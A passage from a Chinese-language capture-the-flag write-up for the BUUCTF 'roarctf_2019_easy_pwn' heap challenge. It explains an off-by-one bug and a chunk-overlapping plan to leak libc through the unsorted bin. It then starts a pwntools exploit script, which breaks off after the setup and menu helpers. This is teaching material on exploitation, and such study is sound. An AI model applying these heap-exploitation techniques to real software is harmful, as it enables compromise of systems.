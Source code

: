 > 题目来源：BUUCTF-roarctf_2019_easy_pwn
>

# 关键词
+ off-by-one
+ chunk Extend/Overlapping
+ use unsortedbin to leak libc_base
+ heap overflow
+ calloc 分配内存

# 文件保护
![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610692598974-919d22b8-728b-4953-bdb3-b7a3aa371ad8.png)

64位程序，保护全开

# IDA静态分析
## 漏洞函数
![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610692755600-41b65195-48b6-43cc-aa41-5dcc4de6a23b.png)

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610692894592-c8dd97aa-5c14-467d-875d-ffe0bbd0d94d.png)

当write是输入的size比创建堆块时输入的size大于10时，即可触发off by one

# 思路
> 利用off by one修改next_chunk_size造成chunk Extend/Overlapping，释放next_chunk到unsortedbin，再申请合适大小的chunk从而泄露出libc base，
>

# 思路验证（gdb调试）
> 调试前请先关闭系统的ALSR
>

## 写出基本的exp
```python
#coding=utf-8
from pwn import *
context.log_level='debug'

p=process('./roarctf_2019_easy_pwn')
#p=remote('node3.buuoj.cn',28166)
elf=ELF('./roarctf_2019_easy_pwn')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
#libc=ELF('./libc-2.23.so')

def choose(choose):
    p.recvuntil('choice: ')
    p.sendline(str(choose))

def create(size):
    choose(1)
    p.recvuntil('size: ')
    p.sendline(str(size))

def write(index,size,content):
    choose(2)
    p.recvuntil('index: ')
```